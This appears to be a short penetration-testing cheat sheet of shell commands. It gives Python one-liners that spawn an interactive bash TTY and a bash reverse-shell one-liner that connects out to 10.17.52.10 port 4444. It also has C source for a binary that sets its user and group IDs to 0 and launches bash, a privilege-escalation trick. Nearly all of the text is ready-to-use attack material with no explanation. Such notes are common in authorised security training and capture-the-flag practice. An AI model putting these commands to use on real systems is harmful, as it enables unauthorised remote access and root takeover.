 
## TTY Shell

##### Python2 - 
`python -c 'import pty; pty.spawn("/bin/bash")'`
##### Python3 -
`python3 -c 'import pty; pty.spawn("/bin/bash")'`

## Reverse Shell 
`/bin/bash -i >& /dev/tcp/10.17.52.10/4444 0>&1`

##### A simple executable that will run /bin/bash on the target system and set the SUID to 0 AND GUID to 0

```C++
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
int main()
{ 
	setgid(0);
	setuid(0);
	system("/bin/bash");
	return 0;
}
```

